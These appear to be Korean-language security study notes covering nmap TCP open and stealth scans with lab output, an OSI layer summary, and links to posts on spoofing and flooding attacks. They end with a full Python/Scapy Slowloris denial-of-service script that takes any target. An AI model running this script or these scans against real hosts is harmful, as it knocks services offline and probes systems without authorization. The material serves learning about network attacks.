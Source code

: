 ## IT서비스와 정보보안

> TCP Open Scan
>
> - 정상적인 TCP 3-Way Handshaking 과정으로 통해서 사용 중인 포트를 확인
>   - 포트가 열려있으면 		: SYN -> SYN/ACK -> ACK
>   - 포트가 열려있지 않으면  : SYN -> RST/ACK
>   - nmap -st 호스트_IP PORT_NO
>
> ```
> nmap -sT HOST_IP 
> 
> root@kali:~# nmap -sT 192.168.87.128
> 
> Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2019-12-09 12:57 EST
> setup_target: failed to determine route to 80 (0.0.0.80)
> Nmap scan report for 192.168.87.128
> Host is up (0.017s latency).
> Not shown: 998 closed ports
> PORT   STATE SERVICE
> 23/tcp open  telnet
> 80/tcp open  http
> MAC Address: 00:50:56:24:73:F1 (VMware)
> 
> Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
> 
> ```
>
> 
>
> Stealth Scan
>
> - 3 way handshaking 과정을 거치지 않기 때문에 로그가 남지 않는다.
>
>   - TCP half open scan / TCP SYN open scan 	=>	 -sS
>
>   - FIN scan, XMAS scan, NULL scan
>
>     - FIN :  FIN							=> -sF
>     - XMAS : FIN, PSH, URG	=> 	-sX
>     - NULL :							=> -sN 
>
>     => 포트가 열려 있으면 -> 무응답
>
>     => 포트가 닫혀 있으면 -> RST/ACK

---

- ARP Spoofing

https://myanjini.tistory.com/76

- MITM(Man In The Middle) attack

https://myanjini.tistory.com/77

- Port Scanning

https://myanjini.tistory.com/75

- Scapy 사용법

https://myanjini.tistory.com/78

- Scapy를 이용한 3-way handshaking

https://myanjini.tistory.com/79

- TCP SYN Flooding

https://myanjini.tistory.com/80





#### 4-1. OSI 7계층

- 물리 계층(1계층)

물리 계층은 실제 장치를 연결하기 위한 전기적ㆍ물리적 세부 사항을 정의한 계층

- 데이터 링크 계층(2계층)

데이터 링크 계층은 두 지점 간의 신뢰성 있는 전송을 보장하기 위한 계층

- 네트워크 계층(3계층)

네트워크 계층은 여러 개의 노드를 거칠 때마다 경로를 찾아주는 역할을 한다. 다양한 길이의 데이터를 네트워크를 통해 전달하고, 전송 계층이 요구하는 서비스 품질QOS을 위해 기능적ㆍ절차적 수단을 제공

- 전송 계층(4계층)

전송 계층은 양 끝단의 사용자들이 신뢰성 있는 데이터를 주고받게 함으로써 상위 계층이 데이터 전달의 유효성이나 효율성을 신경 쓰지 않게 해준다.

- 세션 계층(5계층)
- 표현 계층(6계층)
- 응용 프로그램(7계층)





- Slowloris Attack
  - HTTP 요청 헤더와 본문이 개행문자로 구분되는 특징을 이용한 공격
  - 헤더의 끝을 나타내는 개행문자를 전달하지 않아 서버가 연결을 유지하도록 하는 공격

```
#! /usr/bin/env python↓

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    
    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))


```

